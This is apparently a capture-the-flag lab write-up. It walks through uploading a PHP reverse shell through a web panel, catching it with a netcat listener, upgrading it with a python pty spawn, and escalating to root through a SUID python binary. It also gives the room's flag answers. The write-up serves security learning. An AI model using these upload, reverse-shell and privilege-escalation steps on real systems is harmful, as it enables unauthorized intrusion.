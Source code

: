 Now you can upload your shell to the /panel page. To verify it has been successfully uploaded browse to http://ATTACKIP/uploads. You should see your upload there. 

In your terminal set up a [listener](https://www.youtube.com/watch?v=1kHXf51Sqpk&t=1s). This will be the same port you specified in your shell.

```nc -lvnp 1234```

Now that your listener is set up, you can either click on your shell in the /uploads directory or curl the shell like the below.

```curl http://10.10.196.184/uploads/shell.php5 ```

You should get a connection. Now that you have a connection I like to upgrade my shell a little with the following commands.

```cat /etc/shells``` will tell you which shells are available. If you want to use a specific shell.

```python --version``` will tell you which python version, if any, is available on the host. In our case it's python 2.

```python2 -c 'import pty;pty.spawn("/bin/bash")'``` This will upgrade our basic shell into a bash shell.


![Shell](Task3_shell2.png)

The next thing to do is to find and cat the user flag. 

```find / -type f -name user.txt 2> /dev/null```

One of my favorite websites is [explainshell.com](https://explainshell.com). Try typing in the above command to learn what it does. 

```cat /var/www/user.txt```

> user.txt

> Answer: cat /var/www/user.txt


## Task 4: Privilege escalation

The first task asks you to search for files with SUID permissions. You can do this with the following find command ```find / -perm -u=s -type f 2>/dev/null```. This searches all files where the current user can execute the file as if they were the owner, even if that file owner is root.

Now you can look through this list to see which file looks out of the ordinary. 

![SUID search](Task4_SUID.png)

> Search for files with SUID permission, which file is weird?

> Answer: /usr/bin/python

> Find a form to escalate your privileges.

> Answer: No answer needed

Next you can use GTFOBins to find the correct bypass for [python](https://gtfobins.github.io/gtfobins/python/).

![Python SUID](Task4_SUIDpy.png)

Since you know python is already installed you can skip the first line in GTFOBins. Remember to specify your path and you should be able to escalate to root.

```python
```